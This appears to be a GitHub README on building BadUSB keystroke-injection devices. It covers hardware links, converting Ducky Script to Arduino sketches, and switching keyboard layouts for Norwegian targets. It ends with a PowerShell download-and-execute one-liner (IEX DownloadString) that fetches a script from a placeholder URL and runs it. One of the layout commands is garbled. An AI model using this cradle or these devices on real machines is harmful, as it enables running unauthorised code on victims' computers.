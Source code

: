 # Duckies

## What to buy
**NOTE** The Arduino Beetle doesn't use ducky script, but Arduino Sketches. Luckily, there's an online converter, so you only need to focus on the Ducky Script linked below.
* [BadUSB Beetle - Arduino Leonardo R3 DC 5v 16MHz](https://www.aliexpress.com/item/32954241500.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)
* [Cactus WHID (WiFi Duckie)](https://www.aliexpress.com/item/32318391529.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)


## The scripting language
[Ducky Script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)
### Convert from Ducky Script to Arduino Sketch
[Converter](http://roothaxor.gitlab.io/ducky2arduino_stable/)

## Norwegian specific
The Ducky types using US_ENGLISH keyboard layout, meaning the payloads won't work on targets using the Norwegian keyboard layouts. The work-around is to change the layout to US_ENGLISH at the beginning of the script, then whatever payload, then optionally change it back.

The script I'm using:
From NOR to ENG - 
`PowerShell Set/WinUserLanguageList /LanguageList en/US, nb /Force`

And from ENG to NOR - 
`PowerShell Set-WinUserLanguageList -LanguageList nb, en-US -Force`

Alternatively, you can map out the US_ENGLISH keystrokes to the corresponding NORWEGIAN-layout.

## To get the script on to your duck
You need to download and install (duh) the [Arduino IDE](https://www.arduino.cc/download_handler.php)

1. Write / Paste converted code
2. Verify the code
3. Compile ("Push" to Arduino device) 

**NB!!!** the script will execute after compile is done

![](https://github.com/datasnoken/duckies/blob/master/arduinoIDE.PNG)



## Tips

### More payloads
Google "Rubber Ducky Payloads" -> Convert them to arduino sketches -> Don't forget to change the keyboard layout -> Verify + Compile

### Find a way to do it in Powershell, and run the script from the web as so:

`IEX ((New-Object System.Net.Webclient).DownloadString(\"YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW\")); exit`

--- For the WHID
https://github.com/whid-injector/WHID


